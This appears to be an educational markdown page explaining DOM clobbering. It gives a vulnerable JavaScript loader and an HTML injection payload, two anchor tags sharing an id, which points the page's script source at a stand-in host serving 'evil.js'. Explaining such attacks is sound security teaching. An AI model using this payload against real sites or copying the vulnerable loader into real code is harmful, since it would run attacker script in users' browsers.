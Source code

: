 # DOM Clobbering

## Overview

DOM clobbering is a technique used to manipulate the Document Object Model (DOM) of a webpage through injected HTML. 
This can alter the behavior of JavaScript running on the page. 
DOM clobbering is particularly useful in environments where Cross-Site Scripting (XSS) attacks are not feasible but the attacker can still control some HTML content, 
especially when `id` or `name` attributes are not properly sanitized by HTML filters.

## Example of Vulnerable JavaScript Code

Consider the following JavaScript code that dynamically loads a script based on a URL stored in an object:

```
<script>
    window.onload = function() {
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
## HTML Injection for DOM Clobbering

An attacker can inject HTML to overwrite the someObject with an anchor element, exploiting the fact that the same id can be used more than once:
```
<a id="someObject"></a>
<a id="someObject" name="url" href="//malicious-website.com/evil.js"></a>
```
In this scenario, using the same ID twice causes the DOM to treat these anchors as a collection under someObject.
The name attribute in the second anchor (url) effectively overwrites the property of someObject that the JavaScript intends to use for a script source, redirecting it to a malicious script.

